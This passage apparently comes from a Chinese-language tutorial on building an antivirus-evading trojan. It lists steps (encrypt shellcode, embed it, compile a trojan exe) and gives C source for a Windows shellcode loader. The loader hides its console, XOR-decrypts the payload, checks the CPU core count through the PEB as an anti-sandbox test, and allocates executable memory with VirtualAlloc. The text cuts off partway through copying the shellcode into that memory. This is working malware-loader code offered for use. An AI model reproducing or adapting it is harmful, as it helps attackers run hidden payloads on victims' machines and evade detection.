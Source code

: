 ```php
  }
}
```

# 0x04 代码

使用该代码的流程：

1.  使用加密函数加密 shellcode
2.  将 shellcode 填充到`"\xe8\x2b\x10\x06\x00"`字符常量的后面
3.  编译生成木马 exe

```php
#include <windows.h>
#include <stdio.h>
#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")//隐藏控制台

typedef void (*CODE)();
/* length: 844 bytes */
//0xe8, 0x2b, 0x10, 0x06, 0x00,...
unsigned char shellcode[] = "\xe8\x2b\x10\x06\x00";

PVOID p = NULL;

void decrypt()
{
    //解密 Shellcode
    for(int i = 5;i<sizeof(shellcode);i++)
    {
        ((char*)p)[i] = ((char*)p)[i]^184^6;
    }

}

// 检查 CPU 核心数
// SYSTEM_INFO.dwNumberOfProcessors
INT checkCPUCores(INT cores)
{
    INT i = 0;
    _asm { // x64 编译模式下不支持__asm 的汇编嵌入
        mov eax, dword ptr fs : [0x18]; // TEB
        mov eax, dword ptr ds : [eax + 0x30]; // PEB
        mov eax, dword ptr ds : [eax + 0x64];
        mov i, eax;
    }
    return i;
}

DWORD WINAPI ThreadProc(        
             LPVOID lpParameter   // thread data
             )
{

    //申请内存
    if ((p = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE)) == NULL)
    {
        //MessageBoxW(NULL, L"VirtualAlloc Failed!!!", L"Prompt", MB_OK);
        return 1;
    }

    //复制 shellcode
    if (!(memcpy(p, shellcode, sizeof(shellcode))))
```